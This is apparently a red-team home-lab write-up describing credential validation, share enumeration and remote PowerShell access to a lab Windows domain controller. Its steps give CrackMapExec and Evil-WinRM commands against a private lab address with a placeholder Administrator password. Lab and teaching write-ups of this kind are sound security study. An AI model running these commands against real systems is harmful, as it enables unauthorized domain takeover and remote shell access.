 # Stage 3 – Credential Access and Remote Shell via WINRM

---

## Objective

The goal of Stage 3 was to identify valid domain credentials and use them to gain authenticated access to the target system.

Simulated a typical red team scenario involving:

- SMB enumeration with known credentials
- WINRM validation using CrackMapExec
- Full domain shell access via Evil-WinRM

---

## Tools Used

- CrackMapExec (SMB / WINRM validation)
- Evil-WinRM (interactive shell)

---

## Credentials Used

| Username      | Password         | Domain        |
|---------------|------------------|---------------|
| Administrator | password    | redblue.lab   |

---

## Steps Performed

### 1. Credential Validation via SMB

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password'
```
- Tests whether the provided credentials are valid over SMB (file-sharing protocol) on the target machine.

### 2. Share Enumeration

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password' --shares
```
- Enumerates available network shares (like C$, ADMIN$, SYSVOL, NETLOGON) accessible to this user.

### 3. WINRM Access Validation

``` bash
crackmapexec winrm 192.168.56.101 -u Administrator -p 'password'
```
- Checks if the credentials allow access over the WINRM service, which is needed for remote PowerShell shell access.

### 4. Remote Shell Access with Evil-WinRM

``` bash
evil-winrm -i 192.168.56.101 -u Administrator -p 'password'
```
- Launches an interactive PowerShell session on the remote machine as the authenticated domain user (Domain Admin in this case).

- Confirmed access as redblue\Administrator
- Performed commands like whoami, dir, pwd
